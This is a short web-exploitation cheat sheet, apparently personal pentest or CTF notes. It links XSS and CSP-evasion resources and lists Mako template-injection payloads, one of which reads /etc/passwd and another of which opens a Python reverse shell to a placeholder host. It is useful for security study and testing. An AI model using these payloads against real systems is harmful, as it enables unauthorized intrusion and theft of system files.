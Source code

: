 # Web exploitation

## Resources
- [:alien: Revshells](https://www.revshells.com/)
- [Hacktricks](https://book.hacktricks.xyz/pentesting-web/web-vulnerabilities-methodology)

## SSTI
### Mako
```python
${4+4}
<%import os;x=os.popen('cat /etc/passwd').read()%>${x}
<%from pathlib import Path;x=Path('/etc/passwd').read_text()%>${x}
<%import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",1236));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);%>
```

## XSS
- [Hacktricks XSS](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)
- [XSS Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
- [CSP evasion with JPG polyglot](https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs)
  - [XSS jpg polyglot](https://infosecwriteups.com/exploiting-xss-with-javascript-jpeg-polyglot-4cff06f8201a)
  - [imgj_polygloter](https://github.com/s-3ntinel/imgjs_polygloter)
  - `<script charset="ISO-8859-1" type="text/javascript" src="/some/route"></script>`
- [CSP evasion with dangling markup](https://portswigger.net/research/evading-csp-with-dom-based-dangling-markup)

## Misc
- [prototype pollution](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)

## Foothold
  - SSTI
  - SQL injections
  - SSRF
  - XSS


